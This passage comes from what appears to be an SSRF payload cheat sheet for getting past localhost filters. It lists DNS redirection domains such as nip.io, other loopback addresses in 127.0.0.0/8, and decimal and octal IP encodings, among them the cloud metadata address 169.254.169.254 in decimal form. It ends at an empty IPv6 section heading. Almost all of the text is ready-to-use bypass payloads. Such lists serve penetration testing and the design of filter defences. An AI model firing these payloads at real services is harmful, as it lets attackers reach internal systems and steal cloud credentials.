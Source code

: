 ### Bypass localhost with a domain redirection

```powershell
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
```

The service nip.io is awesome for that, it will convert any ip address as a dns.

```powershell
NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, even 127.0.0.1.nip.io maps to 127.0.0.1
```

### Bypass localhost with CIDR 

It's a /8

```powershell
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### Bypass using a decimal IP location

```powershell
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254
```

### Bypass using octal IP

Implementations differ on how to handle octal format of ipv4.

```sh
http://0177.0.0.1/ = http://127.0.0.1
http://o177.0.0.1/ = http://127.0.0.1
http://0o177.0.0.1/ = http://127.0.0.1
http://q177.0.0.1/ = http://127.0.0.1
...
```

Ref: 
- [DEFCON 29-KellyKaoudis SickCodes-Rotten code, aging standards & pwning IPv4 parsing](https://www.youtube.com/watch?v=_o1RPJAe4kU)
- [AppSecEU15-Server_side_browsing_considered_harmful.pdf](https://www.agarri.fr/docs/AppSecEU15-Server_side_browsing_considered_harmful.pdf)


### Bypass using IPv6/IPv4 Address Embedding
